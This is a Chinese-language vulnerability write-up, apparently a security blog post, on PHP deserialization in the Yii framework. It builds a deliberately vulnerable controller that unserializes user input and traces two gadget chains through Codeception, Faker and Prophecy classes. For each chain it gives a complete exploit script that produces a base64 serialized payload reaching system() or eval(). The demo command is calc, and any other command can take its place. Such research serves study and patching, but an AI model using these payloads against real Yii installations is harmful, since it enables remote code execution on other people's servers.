

# 环境搭建
> 修改`config\web.php`中的`cookieValidationKey`为任意值来作为`yii\web\Request::cookieValidationKey`的加密值，不设置的话将会发生报错

> 添加一个`Controller`来作为反序列化漏洞的触发点

```php
<?php

namespace app\controllers;
use yii\web\Controller;

class DemoController extends Controller{
    public function actionDemo($data){
        return unserialize(base64_decode($data));
    }
}
```

# 漏洞分析
> 全局搜索`__destruct()`来寻找反序列化的触发点，查看每个`__destruct()`方法后发现之前许多可以利用的出发点都加上了`__wakeup()`方法来修补反序列化的漏洞


## POC链-1
> 跟进`vendor\codeception\codeception\ext\RunProcess.php`中的`__destruct()`方法，其会调用`stopProcess()`方法，先对`$this->processes`数组变量进行翻转，由于`$process`变量是可控的，因此可以通过寻找`__call()`方法来进一步寻找利用链


> 跟进`vendor\fakerphp\faker\src\Faker\ValidGenerator.php`中的`__call()`方法，在 while 语句中存在`call_user_func()`方法，由于`$this->validator`是可控的，所以当`$res`可控时，即可造成命令执行函数的利用，因此需要寻找一个类中的`__call()`方法是返回一个可控的变量值的


> 跟进`vendor\fakerphp\faker\src\Faker\DefaultGenerator.php`中的`__call()`方法，其返回值是可控的变量值，成功构成一条闭合的利用链


### exp
```php
<?php

namespace Faker {
	class DefaultGenerator {
		protected $default;
		public function __construct($payload) {
			$this->default = $payload;
		}
	}
	class ValidGenerator {
    	protected $generator;
    	protected $validator;
    	protected $maxRetries;
    	public function __construct($payload) {
    		$this->generator = new DefaultGenerator($payload);
    		$this->validator = "system";
    		$this->maxRetries = 1;
    	}
	}
}

namespace Codeception\Extension {
	use Faker\ValidGenerator;
	class RunProcess {
		private $processes = [];
		public function __construct($payload="") {
			$this->processes[] = new ValidGenerator($payload);
		}
	}
	echo base64_encode(serialize(new RunProcess("calc")));
}
?>
```

### POC链利用流程图


## POC链-2
> 起始点不变，跟进 `vendor\phpspec\prophecy\src\Prophecy\Prophecy\ObjectProphecy.php`中的`__call()`方法，其会调用一个`reveal()`方法，且`$this->revealer`是可控的


> 尝试不使用本类的该方法而自动调用其他类中的该方法后发现无法利用，因此跟进本类中的`reveal()`方法，这里`$this->lazyDouble`是可控的，可以赋值为存在`getInstance()`方法的类


> 跟进`src/Prophecy/Doubler/LazyDouble.php`中的`getInstance()`方法，`$this->double`和`$this->arguments`均可控，此处进步进入if判断的语句都没有区别，最后调用的方法都是一样的，且`$this->doubler`可控，跟进`double()`方法，确认存在该方法的类，再对`$this->doubler`进行实例化类赋值即可，`$this->class`和`$this->interfaces`的赋值需要根据`double()`方法的参数类型来确定


> 继续跟进`src/Prophecy/Doubler/Doubler.php`中的`double()`方法，先用`ReflectionClass`类构建异常处理类的反射类来避免代码中异常抛出，从而走到调用`createDoubleClass()`方法


> 继续跟进`Doubler`类中的`createDoubleClass()`方法，这里`$name`和`$node`可以用`DefaultGenerator`类中的`__call()`方法来任意构造，从而进入`create()`方法



> 跟进`create()`方法，`$node`需要为`Node\ClassNode`类对象，这里利用`eval()`方法可以插入代码执行，还是用同样的方法来使得`$code`可控，实例化为`DefaultGenerator`类对象


### exp
```php
<?php
namespace Faker {
	class DefaultGenerator {
		protected $default;
		public function __construct($cmd) {
			$this->default = $cmd;
		}
	}
}

namespace Prophecy\Doubler\Generator {
	use Faker\DefaultGenerator;
	class ClassCreator {
		private $generator;
		public function __construct($cmd) {
			$this->generator = new DefaultGenerator($cmd);
		}
	}
}

namespace Prophecy\Doubler\Generator\Node {
	class ClassNode {}
}

namespace Prophecy\Doubler {
	use Faker\DefaultGenerator;
	use Prophecy\Doubler\Generator\ClassCreator;
	use Prophecy\Doubler\Generator\Node\ClassNode;
	class Doubler {
		private $namer;
		private $mirror;
	    private $creator;
	    public function __construct() {
	    	$this->namer = new DefaultGenerator("H3rmesk1t");
	    	$this->mirror = new DefaultGenerator(new ClassNode());
	    	$this->creator = new ClassCreator("system('calc.exe');");
	    }
	}
}

namespace Prophecy\Doubler {
	use Prophecy\Doubler\Doubler;
	class LazyDouble {
		private $class;
		private $doubler;
	    private $argument;
	    private $interfaces;
	    public function __construct() {
	    	$this->doubler = new Doubler();
	        $this->argument = ["H3rmesk1t" => "H3rmesk1t"];
	        $this->class = new \ReflectionClass('Exception');
	        $this->interfaces[] = new \ReflectionClass('Exception');
	    }
	}
}

namespace Prophecy\Prophecy {
	use Prophecy\Doubler\LazyDouble;
	class ObjectProphecy {
		private $revealer;
		private $lazyDouble;
		public function __construct($cmd) {
			$this->revealer = $cmd;
			$this->lazyDouble = new LazyDouble();
		}
	}
}


namespace Codeception\Extension {
	use Prophecy\Prophecy\ObjectProphecy;
	class RunProcess {
		private $processes;
		public function __construct() {
			$cmd = new ObjectProphecy("H3rmesk1t");
			$this->processes[] = new ObjectProphecy($cmd);
		}
	}
	echo base64_encode(serialize(new RunProcess()));
}
?>
```

### POC链利用流程图


